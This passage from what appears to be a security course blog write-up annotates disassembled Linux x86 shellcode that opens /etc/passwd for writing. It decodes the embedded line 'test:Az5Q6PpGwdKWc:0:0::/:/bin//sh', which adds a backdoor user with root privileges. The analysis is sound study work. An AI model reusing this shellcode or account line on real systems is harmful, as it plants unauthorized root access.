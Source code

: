 ![assignment5-1](https://bohansec.com/assets/assignment5-1.png "assignment5-1")

{% highlight js %}
;note: 0x5 in is #define __NR_open 5
00000009  6A05              push byte +0x5; push 5 onto the stack
0000000B  58                pop eax ;set eax to 5, which is open() system call
0000000C  31C9              xor ecx,ecx ;set ecx to 0
0000000E  51                push ecx ;push ecx to the stack
;set pathname for open() to /etc//passwd
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp; move where esp points to ebx
00000020  41                inc ecx; increase ecx by 1, cl = 0x1
00000021  B504              mov ch,0x4 ;set 0x4 to ecx high, ecx now becomes 1025 or 0x401, which is the flag
00000023  CD80              int 0x80 ; kernel interruption 

in /usr/include/asm-generic/fcntl.h, we can find following flags being set based on the ecx = 1025
#define O_WRONLY        00000001
#define O_NOCTTY        00000400        /* not fcntl */

{% endhighlight %}

![assignment5-2](https://bohansec.com/assets/assignment5-2.PNG "assignment5-2")

![assignment5-3](https://bohansec.com/assets/assignment5-3.PNG "assignment5-3")

The following code seems does not make any sense at first, but they are actually the string which is the user to be added to the /etc/passwd.

{% highlight js %}
string for the user "test":
"746573743A417A35513650704777644B57633A303A303A3A2F3A2F62696E2F2F7368" in ascii:
"test:Az5Q6PpGwdKWc:0:0::/:/bin//sh"

0000002B  7465              jz 0x92
0000002D  7374              jnc 0xa3
0000002F  3A417A            cmp al,[ecx+0x7a]
00000032  3551365070        xor eax,0x70503651
00000037  47                inc edi
00000038  7764              ja 0x9e
0000003A  4B                dec ebx
0000003B  57                push edi
0000003C  633A              arpl [edx],di
0000003E  303A              xor [edx],bh
00000040  303A              xor [edx],bh
00000042  3A2F              cmp ch,[edi]
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
{% endhighlight %}
